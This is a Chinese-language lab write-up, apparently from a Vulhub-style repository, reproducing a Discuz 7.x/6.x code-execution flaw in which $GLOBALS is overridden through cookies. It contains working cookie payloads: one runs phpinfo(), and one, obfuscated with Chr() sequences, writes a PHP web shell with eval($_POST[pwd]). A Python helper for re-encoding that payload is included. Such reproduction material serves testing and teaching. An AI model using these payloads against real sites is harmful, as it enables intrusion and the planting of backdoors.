


# Discuz 7.x/6.x 全局变量防御绕过导致代码执行

## 漏洞描述

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，也就是说默认配置下`$_REQUEST`只包含`$_GET`和`$_POST`而不包括$_COOKIE。

我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 环境搭建

Vulhub执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。



## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```



同样方法传入以下Cookie写入一句话木马文件，文件为x.php，密码为pwd

```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```

ASCII码和字符互相转换的小脚本，方便修改POC的文件名和密码：

```
import re
# ASCII = ord(Word)
# Word = chr(ASCII)

# ASCII -> Word
def ASCII2word(ASCIIs):
	for c in re.findall(r"(\d+)", ASCIIs):
	    print(chr(int(c)),end="")

# Word -> ASCII
def word2ASCII(words):
	ASCIIs = ""
	for word in words:
		ASCIIs += "Chr(" + str(ord(word)) + ")."
	print(ASCIIs)

print("----------ASCII TO WORD---------------------")

asciis = "Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(109).Chr(105).Chr(115).Chr(104).Chr(105).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(116).Chr(101).Chr(115).Chr(116).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59)"
ASCII2word(asciis)

print("\n\n----------WORD TO ASCII--------------------")

words = "fputs(fopen('x.php','w'),'<?php @eval($_POST[pwd])?>');"
word2ASCII(words)
```

